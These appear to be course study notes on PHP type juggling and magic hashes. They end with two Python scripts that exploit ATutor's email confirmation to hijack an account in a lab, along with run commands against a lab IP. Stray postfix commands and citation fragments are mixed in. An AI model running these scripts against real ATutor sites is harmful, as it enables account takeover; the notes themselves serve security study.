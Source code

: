#### Type Juggling

```
sudo cat /etc/postfix/transport
```
update that file with SMTP relay IP.

```
sudo postmap /etc/postfix/transport
```

PHP does not require (or support) explicit type definition in variable declaration; a variable's type is determined by the context in which the variable is used. That is to say, if a string value is assigned to variable $var, $var becomes a string. If an integer value is then assigned to $var, it becomes an integer.

Loose comparisons

Strict comparisons

(PHP Group, 2020), http://php.net/manual/en/language.types.type-juggling.php ↩︎

2
(PHP Group, 2020), http://php.net/manual/en/language.operators.comparison.php#language.operators.comparison

#### Loose comparison in PHP 5.6.17

```
php -v
php -a
var_dump('0xAAAA' == '43690');
bool(true)

var_dump('0xAAAA' == 43690);
bool(true)

var_dump(0xAAAA == 43690);
bool(true)

var_dump('0xAAAA' == '43691');
bool(false)
```
#### Loose comparison in PHP 8.1.12

```
php -v
php -a
Interactive shell

php > var_dump('0xAAAA' == 43690);
bool(false)
php > var_dump('0xAAAA' == '43690');
bool(false)
php > var_dump(0xAAAA == 43690);
bool(true)
php > var_dump('0xAAAA' == '43691');
bool(false)
php > 

```
#### Scientific exponential notation comparisons in PHP 8.1.12 and PHP 5

```
php -a

php > var_dump('0eAAAA' == '0');
bool(false)
php > var_dump('0e1111' == '0');
bool(true)
php > var_dump('0e9999' == '0');
bool(true)

```

1
(PHP Group, 2020), http://php.net/manual/en/language.types.string.php#language.types.string.conversion ↩︎ ↩︎


#### Magic Hashes

```
student@atutor:~$ php -a
Interactive mode enabled

php > echo md5('240610708');
0e462097431906509019562988736854

php > var_dump('0e462097431906509019562988736854' == '0');
bool(true)

```

(Špaček et al., 2022), https://github.com/spaze/hashes ↩︎ ↩︎

##### ATutor and magic email address

```
└─$ cat atutor_codegen.py 
import hashlib, string, itertools, re, sys

def gen_code(domain, id, date, prefix_length):
    count = 0
    for word in map(''.join, itertools.product(string.ascii_lowercase, repeat=int(prefix_length))):
        #hash = hashlib.md5("%s@%s" % (word.encode('utf-8'), domain.encode('utf-8')) + date.encode('utf-8') + id.encode('utf-8')).hexdigest()[:10]
        hash = hashlib.md5(("%s@%s" % (word, domain) + date + id).encode()).hexdigest()[:10]
        if re.match(r'0+[eE]\d+$', hash):
            print("(+) Found a valid email! %s@%s" % (word, domain))
            print("(+) Requests made: %d" % count)
            print("(+) Equivalent loose comparison: %s == 0\n" % (hash))
        count += 1

def main():
    if len(sys.argv) != 5:
        print('(+) usage: %s <domain_name> <id> <creation_date> <prefix_length>' % sys.argv[0])
        print('(+) eg: %s offsec.local 3 "2018-06-10 23:59:59" 3'  % sys.argv[0])
        sys.exit(-1)

    domain = sys.argv[1]
    id = sys.argv[2]
    creation_date  = sys.argv[3]
    prefix_length = sys.argv[4]

    gen_code(domain, id, creation_date, prefix_length)

if __name__ == "__main__":
    main()



```

```
python atutor_codegen.py offsec.local 1 "2018-05-10 19:28:05" 3
python atutor_codegen.py offsec.local 1 "2018-05-10 19:28:05" 4
```


```
└─$ cat atutor_update_email.py                               
import hashlib, string, itertools, re, sys, requests

def update_email(ip, domain, id, prefix_length):
    count = 0
    for word in map(''.join, itertools.product(string.ascii_lowercase, repeat=int(prefix_length))):
        email = "%s@%s" % (word, domain)
        url = "http://%s/ATutor/confirm.php?e=%s&m=0&id=%s" % (ip, email, id)
        print ("(*) Issuing update request to URL: %s" % url)
        r = requests.get(url, allow_redirects=False)
        if (r.status_code == 302):
            return (True, email, count)
        else:
            count += 1
    return (False, Nothing, count)

def main():
    if len(sys.argv) != 5:
        print ('(+) usage: %s <domain_name> <id> <prefix_length> <atutor_ip>' % sys.argv[0])
        print ('(+) eg: %s offsec.local 1 3 192.168.1.2'  % sys.argv[0])
        sys.exit(-1)

    domain = sys.argv[1]
    id = sys.argv[2]
    prefix_length = sys.argv[3]
    ip = sys.argv[4]

    result, email, c = update_email(ip, domain, id, prefix_length)
    if(result):
        print ("(+) Account hijacked with email %s using %d requests!" % (email, c))
    else:
        print ("(-) Account hijacking failed!")

if __name__ == "__main__":
    main()
              
```

```
python atutor_update_email.py offsec.local 1 3 192.168.121.103
```

